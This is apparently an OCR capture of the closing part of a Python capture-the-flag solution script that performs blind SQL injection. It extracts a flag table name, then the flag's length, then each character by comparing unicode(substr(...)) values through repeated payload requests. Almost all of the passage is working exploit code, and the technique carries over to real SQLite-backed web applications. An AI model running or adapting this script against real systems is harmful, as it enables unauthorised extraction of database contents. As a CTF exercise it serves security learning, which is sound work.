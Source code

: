 ```
                print(flag_table, end='\r')
                break

    print("\n\n[+] Extracted flag tablename: %s\n" % flag_table)

    # get length of flag content
    left = '(select length(flag) from %s)' % flag_table

    for i in range(1, 70):

        sqli = sqli_temp.replace('_LEFT_', left)
        sqli = sqli.replace('_RIGHT_', str(i))

        print(i, end='\r')

        res = send_payload(url, sqli)

        if res:
            flagDataLength = i
            break

    print("\n\n[+] Found flag data length: %s\n" % flagDataLength)

    flag_data = ''

    for charPos in range(1, flagDataLength + 1):

        left = '(select unicode(substr(flag,%d,1)) from %s)' % (charPos, flag_table)

        for char in range(32, 127):
            sqli = sqli_temp.replace('_LEFT_', left)
            sqli = sqli.replace('_RIGHT_', str(char))
            res = send_payload(url, sqli)

            if res:
                flag_data = flag_data + chr(char)
                print(flag_data, end='\r')
                break

    print("\n\n[+] Extracted flag data: %s\n" % flag_data)


def main():
    sqli()


if __name__ == '__main__':
    main()

```
